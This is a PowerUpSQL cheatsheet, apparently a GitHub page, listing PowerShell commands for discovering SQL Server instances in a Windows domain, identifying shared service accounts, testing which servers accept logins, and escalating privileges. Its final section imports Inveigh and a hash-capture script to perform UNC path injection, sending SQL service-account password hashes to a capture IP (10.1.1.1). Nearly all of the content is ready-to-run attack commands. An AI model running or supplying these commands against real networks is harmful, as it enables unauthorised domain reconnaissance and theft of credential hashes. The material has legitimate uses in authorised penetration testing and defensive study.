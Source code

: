 # PowerUpSQL Cheatsheet

## Discover Local SQL Server Instances
Get-SQLInstanceLocal -Verbose

## Discover Remote SQL Server Instances
Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1

Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose

## Discover Domain SQL Server Instances
Get-SQLInstanceDomain -Verbose 

## Discover Domain Shared Service Account for SQL Server
Get-SQLInstanceDomain -Verbose | Where-Object {$_.DomainAccount -notlike "*$"} | Group-Object DomainAccount | Select Count, Name | Sort-Object Name -Descending

## List SQL Servers using a Specific Domain Account
Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc

## Get a list of domain SQL servers that can be logged into
$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"} 
$Targets

# Identify Shared SQL Server Service Accounts



# 

# Domain Privilege Escalation 
### UNC Path Injection Against Accessible Domain SQL Servers
Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1

Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1

Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1 

Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1 